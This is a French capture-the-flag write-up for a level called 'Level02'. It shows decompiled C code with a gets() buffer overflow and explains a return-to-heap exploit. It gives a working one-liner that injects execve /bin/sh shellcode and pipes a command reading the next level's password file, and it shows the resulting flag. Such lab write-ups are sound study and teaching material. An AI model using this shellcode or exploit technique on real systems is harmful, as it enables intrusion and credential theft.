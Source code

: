 # Rapport CTF - [Level02]

### Observation :
En arrivant sur le level2 on trouve un executable nommé level2.\
Quand nous essayons de le lancer avec un argument le programme nous renvois juste notre propre chaine de caractere puis se ferme. \
Regardons donc avec gdb ou un decompilateur.


### Explication de Code :
En lancant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (080484D4) --------------------------------------------------------
char *p()
{
  char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  const void *v2; // [esp+5Ch] [ebp-Ch]
  unsigned int retaddr; // [esp+6Ch] [ebp+4h]

  fflush(stdout);
  gets(s);
  v2 = (const void *)retaddr;
  if ( (retaddr & 0xB0000000) == 0xB0000000 )
  {
    printf("(%p)\n", v2);
    _exit(1);
  }
  puts(s);
  return strdup(s);
}

//----- (0804853F) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
  return (int)p();
}
```
Nous pouvons voir plusieur chose:
- Le programme lance la fonction `p()`.
- La fonction `p()` ecrit dans un buffer `s[64]` votre string.
- Esuite La fonction `p()` test si votre adresse de retour est dans la stack, si elle l'est, alors la fonction printf l'adresse de retour puis exit.
- Sinon la fonction print avec `puts()` votre entrer puis renvois l'adresse de la chaine malloc de strdup.


### Solution :

Nous devons donc injecter un **SHELLCODE** pour pouvoir return sur notre propre code et l'executer. \
On creer donc un **shellcode** et on le met au debut de notre chaine our qu'il soit executer. \ 
Nous voulons ecrire l'adresse de notre shellcode a `(s) + (void*)` = `64 + 16` octets. \
On ecrit donc notre **shellcode** au debut (24 octets) ensuite des octects random poour arriver a (64  + 16 - 24), ensuite nous pouvons ecrire notre addresse de retour.

On fait la commande suivante pour obtenir le flag :
```sh
(python -c "print('\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + '\x00' * (64 + 16 - 24) + '\x08\x04\xa0\x08'[::-1])" ; echo "cat /home/user/level3/.pass") | ./level2
```

### Resultat :
```sh
j
 X1�Vh//shh/bin��1ɉ�̀
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```